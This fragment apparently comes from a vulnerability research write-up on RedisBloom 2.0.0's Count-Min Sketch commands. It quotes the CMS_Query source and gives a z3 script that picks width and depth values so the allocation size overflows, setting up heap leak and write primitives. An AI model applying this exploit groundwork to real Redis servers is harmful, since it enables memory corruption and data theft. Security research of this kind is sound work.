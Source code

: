 → Increasing width and depth reduces error (e.g., smaller width causes more hash collisions ⇒ larger error).

Verified that the command can be called successfully.

Now search for code that references cms->array, cms->width, and cms->depth.

CMS_IncrBy and CMS_Query functions (RedisBloom-2.0.0/src/cms.c):

CMS_IncrBy is the write primitive, and CMS_Query is the read primitive.

The original analysis report only covered a heap address leak using CMS_Query.

Command docs:
- https://redis.io/docs/latest/commands/cms.incrby/
- https://redis.io/docs/latest/commands/cms.query/

```c
size_t CMS_Query(CMSketch *cms, const char *item, size_t itemlen) {
    assert(cms);
    assert(item >= 0);

    size_t temp = 0, res = (size_t)-1;

    for (size_t i = 0; i < cms->depth; ++i) {
        uint32_t hash = CMS_HASH(item, itemlen, i);
        temp = cms->array[(hash % cms->width) + (i * cms->width)];
        if (temp < res) {
            res = temp;
        }
    }

    return res;
}
```

The code uses i * cms->width in the index; if depth is excessively large, a segfault may occur.
⇒ If cms->depth is fixed to 1, leaking becomes easier and you avoid segfaults.

```py
from z3 import *

s = Solver()
width = BitVec('width', 64)
depth = BitVec('depth', 64)

s.add(depth == 1)
s.add(width > 0)
s.add(depth > 0)
s.add(ULT(width * depth * 4, 0x10))

assert s.check() == sat
model = s.model()
width, depth = model[width].as_long(), model[depth].as_long()
val = (width * depth * 4) & 0xFFFFFFFFFFFFFFFF

print("width:", str(width), "depth:", str(depth))
print(hex(val))
```
